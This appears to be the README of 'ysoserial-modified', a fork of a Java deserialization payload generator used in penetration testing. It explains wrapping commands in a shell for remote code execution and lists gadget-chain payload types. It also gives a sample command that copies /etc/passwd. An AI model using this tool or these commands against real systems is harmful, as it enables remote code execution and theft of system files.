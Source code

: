 
# ysoserial-modified 

Thats a fork of the original ysoserial application that can be found here: [https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)

## Description of the Modification

Due how `Runtime.getRuntime().exec(String.class)` works in java, nested and complex commands where you'll need control pipes or send the output to files (ex: cat /etc/passwd > /tmp/passwd_copy) will not work because the command executed by the exec() method from the Runtime class isn't executed inside of a terminal environment. One possible hack is execute "/bin/sh -c 'command'" but you'll need escape the space charater on the 'command' using ${IFS} or it will not work as expected. For more details about that problem and possible workaround please read [this blopost](http://codewhitesec.blogspot.com.au/2015/03/sh-or-getting-shell-environment-from.html) that will go deep on the details.

A good solution to fix that problem is pass the arguments to the method `Runtime.getRuntime().exec(String[].class)` that expects an array of Strings. The best option is execute the following: `Runtime.getRuntime().exec("/bin/sh", "-c", "command")`. Passing the arguments that way, java will understand that you're executing the /bin/bash passing the arguments -c and 'command' on the correct way and will execute your command inside of an terminal environment, what you allow you use nested or complex commands and also control inputs and outputs.

Knowing that I added a functionality to ysoserial where you give the type of the terminal that you want use to execute your command (cmd / bash / powershell or none) and my modification will execute your command inside of that terminal context allowing you to execute any complex command as it should work!

## Usage

```shell
pimps@Scorpion:~/git/ysoserial-modified/target$ java -jar ysoserial-modified.jar 
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] [terminal type: cmd / bash / powershell / none] '[command to execute]'
   ex: java -jar ysoserial-[version]-all.jar CommonsCollections5 bash 'touch /tmp/ysoserial'
	Available payload types:
		BeanShell1 [org.beanshell:bsh:2.0b5]
		C3P0 [com.mchange:c3p0:0.9.5.2, com.mchange:mchange-commons-java:0.2.11]
		CommonsBeanutils1 [commons-beanutils:commons-beanutils:1.9.2, commons-collections:commons-collections:3.1, commons-logging:commons-logging:1.2]
		CommonsCollections1 [commons-collections:commons-collections:3.1]
		CommonsCollections2 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections3 [commons-collections:commons-collections:3.1]
		CommonsCollections4 [org.apache.commons:commons-collections4:4.0]
		CommonsCollections5 [commons-collections:commons-collections:3.1]
		CommonsCollections6 [commons-collections:commons-collections:3.1]
		FileUpload1 [commons-fileupload:commons-fileupload:1.3.1, commons-io:commons-io:2.4]
		Groovy1 [org.codehaus.groovy:groovy:2.3.9]
		Hibernate1 []
...
```

